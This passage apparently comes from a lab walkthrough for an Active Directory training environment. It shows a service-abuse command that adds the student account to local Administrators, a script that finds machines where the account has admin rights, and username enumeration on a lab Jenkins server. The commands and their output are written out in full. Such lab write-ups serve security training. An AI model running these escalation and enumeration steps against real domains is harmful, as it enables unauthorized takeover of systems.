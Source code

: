 So, this is the abuse function that we need:&#x20;

```powershell
Invoke-ServiceAbuse -Name 'SNMPTRAP' -UserName "dcorp\student867" -Verbose
```

<figure><img src="../../.gitbook/assets/image (177).png" alt=""><figcaption></figcaption></figure>

Check it using this command: `Get-LocalGroupMember -Group "Administrators"`

```powershell
ObjectClass Name                       PrincipalSource
----------- ----                       ---------------
Group       dcorp\Domain Admins        ActiveDirectory
User        dcorp\student867           ActiveDirectory
User        DCORP-STD867\Administrator Local
```

### 2 - Identify a machine in the domain where studentx has local administrative access

Using Find-PSRemotingLocalAdminAccess.ps1 we can diplay machines where our student account has local admin access:

```powershell
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess -Verbose
```

```powershell
dcorp-adminsrv
dcorp-std867
```

### 3 - Using privileges of a user on Jenkins on 172.16.3.11:8080, get admin privileges on 172.16.3.11 - the dcorp-ci server

Go via browser on Jenkins site (172.16.3.11:8080) to Dashboard:

<figure><img src="../../.gitbook/assets/image (178).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (179).png" alt=""><figcaption></figcaption></figure>

This Jenkins vs has password policy without a restrictive rule, we can obtain username about three accounts going to [http://172.16.3.11:8080/asynchPeople/](http://172.16.3.11:8080/asynchPeople/)&#x20;

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

```
manager
builduser
jenkinsadmin
```
